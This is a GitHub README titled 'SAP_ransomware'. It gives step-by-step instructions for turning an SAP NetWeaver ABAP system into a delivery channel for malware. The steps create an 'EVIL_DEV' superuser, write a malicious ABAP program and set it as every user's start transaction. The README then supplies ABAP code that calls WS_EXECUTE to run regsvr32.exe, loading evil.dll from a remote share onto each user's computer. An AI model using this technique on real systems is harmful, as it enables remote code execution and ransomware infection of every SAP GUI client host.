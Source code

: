 # SAP_ransomware
Simple remote command execution exploit code for SAP GUI
First of all need to create a malicious ABAP program on SAP NetWeaver AS ABAP

1) First of all, to get RCE on a client’s computer, it is necessary to create a user with developer rights. The user SAP* cannot create or change any programs. To do this, run transaction su01 and  create a new user with SAP_ALL rights under login EVIL_DEV.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/1.png)

2) Then, login as the EVIL_DEV user, run transaction se38 and create a program sap_malware_prog.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/2.png)

3) Then when we are able to create a program, we click the Insert button, then copy a program, which executes malicious functionality, then save all and activate the program.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/3.png)

4) Create custom transaction with se93
![](https://github.com/vah13/SAP_ransomware/blob/master/img/4.png)

5) Connect custom transaction to malware program
![](https://github.com/vah13/SAP_ransomware/blob/master/img/5.png)

6) Set mlauncher transaction by default 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/6.png)

7) The screenshot shows that we set start transaction – mlauncher for all users. 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/7.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/8.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/9.png)

## ABAP code for execute any command in SAP clients hosts
```
CALL FUNCTION 'WS_EXECUTE'
       EXPORTING
            program = 'c:\Windows\System32\regsvr32.exe'
            commandline     = '/i /s \\REMOTE_FOLDER\tmp\evil.dll'
            INFORM         = ''
           EXCEPTIONS
                  FRONTEND_ERROR        = 1
                  NO_BATCH                 = 2
                  PROG_NOT_FOUND           = 3
                  ILLEGAL_OPTION           = 4
                  GUI_REFUSE_EXECUTE       = 5
                  OTHERS                   = 6.
  ```
  
  using this vulnerability developers or sap administrator can execute any command on users computers and infected them
